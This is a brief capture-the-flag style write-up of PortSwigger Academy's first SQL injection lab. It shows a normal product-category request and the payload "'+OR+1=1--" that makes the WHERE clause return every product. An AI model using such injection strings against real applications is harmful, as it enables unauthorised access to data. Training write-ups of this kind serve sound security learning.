 ```yaml
---
title: PortSwigger Academy - SQLi - Lab 1 - SQLi in WHERE clause
date: 2023-03-02
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal 

Show all the products no matter the category.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

With payload:

````text
<website>/products?category='+OR+1=1--
````
